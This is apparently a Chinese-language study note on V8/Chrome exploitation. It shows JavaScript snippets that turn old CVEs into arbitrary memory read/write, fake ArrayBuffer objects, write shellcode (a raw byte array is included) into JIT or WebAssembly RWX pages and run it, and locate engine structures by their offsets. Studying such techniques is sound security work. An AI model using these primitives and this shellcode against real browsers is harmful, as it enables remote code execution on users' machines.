

# arbitrary read/write

### 1、可以获得freelisthead

eg. cve-2017-15401

##### 由freelisthead获得superpage信息：
```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}
```

##### arbitrary read/write：

```
freelist = new Uint32Array(2);//可以改写freelisthead
freelist.buffer;

function u64_to_arr(u64, arr) {
  arr[0] = u64.lo;
  arr[1] = u64.hi;
}

function read(addr, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var b = new Uint32Array(2);
  b.buffer;
  junk.push(b);
  return arr_to_u64(freelist).bswap();
}

function write(addr, val, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var rw = new Uint32Array(2);
  rw.buffer;
  u64_to_arr(val, rw);
  junk.push(rw);
}
```


### 2、数组越界

eg. CVE-2019-5782

##### 补充内容


length位于bk上方：

##### arbitrary read/write：

```
var buf = new ArrayBuffer(0xbeef);
var offset2;
var dtView = new DataView(buf);

//search the buf.size
for(let i=0; i<0xffff; i++){
    if(dt.f2i(a2[i]) == 0xbeef){
        offset2 = i+1; //a2[offset2] -> buf.backing_store
        break;
    }
}

function write64(addr, value){
    a2[offset2] = dt.i2f(addr);
    dtView.setFloat64(0, dt.i2f(value), true);
}

function read64(addr, str=false){
    a2[offset2] = dt.i2f(addr);
    let tmp = ['', ''];
    let tmp2 = ['', ''];
    let result = ''
    tmp[1] = hex(dtView.getUint32(0)).slice(10,);
    tmp[0] = hex(dtView.getUint32(4)).slice(10,);
    for(let i=3; i>=0; i--){
        tmp2[0] += tmp[0].slice(i*2, i*2+2);
        tmp2[1] += tmp[1].slice(i*2, i*2+2);
    }
    result = tmp2[0]+tmp2[1]
    if(str==true){return '0x'+result}
    else {return parseInt(result, 16)};
}
```

#### 2.1、特殊--Array.prototype.map非线性溢出

eg. Issue 716044: V8: OOB write in Array.prototype.map builtin

##### 介绍

非线性原因：array中存在hole(为初始化内容)，而Array.prototype.map在索引时会跳过hole，所以我们可以通过为指定位置初始化来实现非线性写入。

##### arbitrary read/write：

```
array[8] = 6;
// trigger the oob write to b[8], overwrite the oobArray's length
var b = array.map(function(x) { return maxSize; });

通过nap修改Array's length使其溢出，剩下的同数组溢出。
```

### 3、fake arraybuffer

eg. CVE-2017-5070

##### 前置条件

- 一般适用于只具有任意读的情况：

```
var ab = new ArrayBuffer(0x20);

用addrOf原语泄露出ab.__proto__的地址，-0x70就可以得到ab_constructor_addr的地址。

var abMapProtoAddr = AddrOfObj(ab.__proto__);
var abMapConstructAddr = abMapProtoAddr - 0x70;


var fakeABMap = [
    i2f(0xdaba0000daba0000), // map, whatever;
    i2f(0x000900c03e000008),
    i2f(0x00000000082003ff),
    1.1, // prototype
    2.2, // constructor
    0,
]
fakeABMap[3] = i2f(abMapProtoAddr);
fakeABMap[4] = i2f(abMapConstructAddr);


-------------------------------//get the fake ArrayBuffer Map elements' addr----------------------------------------
var fakeABMapAddr = AddrOfObj(fakeABMap) + 0x30; // elements addr of fakeABMap
print("[+] fake ArrayBuffer Map addr: 0x"+hex(fakeABMapAddr));


-------------------------------//use the fakeABMapAddr to build fakeAB;-------------------------------

var fakeAB = [
    1.1, // ArrayBuffer Map;
    2.2,  // properties (whatever);
    3.3,  // elements (whatever);
    i2f(0x40000000000), // length 0x400
    4.4, // backing store;
    i2f(0x0000000000000004), // copy form ab stucture
    i2f(0)
]
fakeAB[0] = i2f(fakeABMapAddr);
```

- 可以通过漏洞伪造arraybuffer（通过控制bk来实现arbitrary read/write），伪造方法：fake arraybuffer map and fake arraybuffer。


#####  arbitrary read/write

```
//get fake ArrayBuffer object with FakeObj primitive
var fakeABObj = FakeObj(i2f(fakeABAddr));
// build DataView obj
var dataView = new DataView(fakeABObj);

// aar primitive
function dataViewRead64(addr)
{

    fakeAB[4] = addr; // overwrite fakeAB[4], which is corresponding to backing store pointer

    return f2i(dataView.getFloat64(0, true));
}

// aaw primitive
function dataViewWrite(addr, payload)
{

    fakeAB[4] = addr;

    for (let i=0; i<payload.length; i++) {
        dataView.setUint8(i, payload[i]);
    }
    return ;
}
```
通过控制fake ArrayBuffer的bk来实现。


# exploite

## 可以leak object address

- 可以泄漏object可以很轻易的利用oor/oow修改jsfunction或wasm中的jit code

### 方法一

```
// 1、创建一个JSFunction object
var jit = new Function("var a = 1000000");

// 2、get object address
var jit_addr = addrOf(jit) - 1;

//3、任意读获得jit中的rwx地址
var jit_rwx = read(jit_addr + 0x38);

//4、将shellcode写入jit_rwx
var shellcode = [];
write(jit_rwx, shellcode);

//5、run shellcode
jit();
```

### 方法二

通过WASM，能得到一块RWX的内存，里面放着WASM的二进制代码，将shellcode写入到这块内存，再调用WASM接口时，就会执行Shellcode了。

```
function wasm_func() {
    var wasmImports = {
        env: {
            puts: function puts (index) {
                print(utf8ToString(h, index));
            }
        }
    };
    var buffer = new Uint8Array([0,97,115,109,1,0,0,0,1,137,128,128,128,0,2,
        96,1,127,1,127,96,0,0,2,140,128,128,128,0,1,3,101,110,118,4,112,117,
        116,115,0,0,3,130,128,128,128,0,1,1,4,132,128,128,128,0,1,112,0,0,5,
        131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,146,128,128,128,0,2,6,
        109,101,109,111,114,121,2,0,5,104,101,108,108,111,0,1,10,141,128,128,
        128,0,1,135,128,128,128,0,0,65,16,16,0,26,11,11,146,128,128,128,0,1,0,
        65,16,11,12,72,101,108,108,111,32,87,111,114,108,100,0]);
    let m = new WebAssembly.Instance(new WebAssembly.Module(buffer),wasmImports);
    let h = new Uint8Array(m.exports.memory.buffer);
    return m.exports.hello;
}


var wasmObjAddr = addrOf(func);
var sharedInfoAddr = dataViewRead64(wasmObjAddr+0x18)-1;
var wasmExportedFunctionDataAddr = dataViewRead64(sharedInfoAddr+8)-1;
var instanceAddr = dataViewRead64(wasmExportedFunctionDataAddr+0x10)-1;
var rwxAddr = dataViewRead64(instanceAddr+0xe8);

print("[+] wasm obj addr: 0x"+hex(wasmObjAddr));
print("[+] wasm shared info addr: 0x"+hex(sharedInfoAddr));
print("[+] wasmExportedFunctionData addr addr: 0x"+hex(wasmExportedFunctionDataAddr));
print("[+] instance  addr: 0x"+hex(instanceAddr));
print("[+] rwx addr: 0x"+hex(rwxAddr));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];
// wite the shellcode to wasm code
dataViewWrite(rwxAddr, shellcode);
// run shellcode
func();
```


## 无法leak object address（使用Isolate）

##### when to use:

- 无法获得object地址
- 可以泄漏superpage地址

##### how to use：

##### 1、获取isolate

- 通过泄漏freelisthead地址我们可以得到superpage和metadata的地址。
- 在metadata首地址处存储了array_buffer_allocator，他和blink::g_main_thread_per_isolate_data的偏移是固定的，我们可以通过gdb找到blink::g_main_thread_per_isolate_data的地址：


在g_main_thread_per_isolate_data首地址处存储了isolate_data

isolate_data的首地址处存储的值就是Isloate的值。


##### 2、获取context：

我们在api.cc中找到了这么一个函数，他同时包含了context和native_context，我们在该函数处下一个断点，之后通过汇编去查看偏移：


如上图所示我们找到了context位于isolate的+0x1860处，native_context位于context的+0x27处。

##### 3、获取globalobject

依旧是同样的套路我们在global_object处下断，之后通过汇编查看偏移：


可以看到globalobject位于native_context的+0x1f处

##### 4、获取v8 heap

由global获取memorychunk：
memory_chunk = global.and(mku64((1 << 19) - 1).not());


因为memory_chunk结构体比较简单，heap的偏移可以直接从源码算出，如图所示0x38处（注意结构体会对齐）。

##### 5、获取codespace

这个偏移我是断在了frames.cc如下图处：

这里有个点需要注意，虽然从汇编代码看到的的偏移是+0xdf8，但是我们要注意此时heap的基地址是0xcf1c1785000,但是memory_chunk中指向的是heap+0x20处，所以在写exp的时候要注意调整偏移为0xdd8。


memory_chunk中指向的heap：


##### 6、获取allocation_info

还是上面找codespace那个位置下断可以一起找到allocation_info：





如上图所示top和limit的偏移为codespace+0x258、codespace+0x260，结合下面的allocation_info结构体，可以得到他的偏移为codespace+0x250

```
class AllocationInfo {
 public:
  
  ........................
  
 private:
  // The original top address when the allocation info was initialized.
  Address original_top_;
  // Current allocation top.
  Address top_;
  // Current allocation limit.
  Address limit_;
};
```

##### 7、获取rwx以及fsfunction的code段

allocation_info的original_top_也就是首地址处存储了rwx的最高地址也可以理解为limit，我们之后获取rwx可以通过limit-size来获取rwx，这里可以通过%DebugPrint（我用不了，理论上的方法）找到jit的code地址，应该和他同处一个rwx段，计算偏移即可得到jit的code段，之后就可以写入shellcode了


